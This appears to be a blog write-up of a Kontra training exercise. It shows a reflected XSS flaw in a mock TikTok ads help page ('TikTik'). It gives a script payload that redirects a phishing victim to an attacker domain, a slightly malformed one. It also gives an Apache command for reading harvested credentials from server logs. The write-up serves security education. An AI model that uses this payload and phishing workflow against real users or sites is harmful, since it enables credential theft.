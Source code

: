 ```yaml
---
layout: post
title:  "Kontra - Tiktok XSS"
postid: writeup
categories:
---
```

# Tiktok XSS
This exercise can be found under [Kontra](1)

Per cyberpoint's [research](2) on Tiktok, XSS vulnerability was found that could allow motivated threat actors to gain an access to adversaries' Ad campaigns via reflected XSS.

<br />

## XSS Exercise
We were introduced to a fake website called TikTik and we wanted to exploit search function to route an employee of targeted news company to a fake phishing page so we can have access to their password and get Ad campaign data of targeted company.

We find help page (https://ads.tiktik.com) and find that search fuction has a reflected XSS within the search term. It echos back input by WebApp in response (?q=xxx). We used following payload:

```javascript:
<script>document.location('fakewebsite.com')</script>
```
and sent a email to employee to have them click on link but be routed to crafter site. 

In order for this attack to happen, attacked must own fakewebsite domain and have a public accessible server.

The server containing website can use the following command to run server and show connection logs:
```
service apache2 start && tail -f /var/log/access.log
```

Ones targeted user uses username and password on phishing site, we gain username and password through web server's logs.

[1]:https://application.security/free-application-security-training/cross-site-scripting-vulnerability-in-tiktok
[2]:https://research.checkpoint.com/2020/tik-or-tok-is-tiktok-secure-enough/
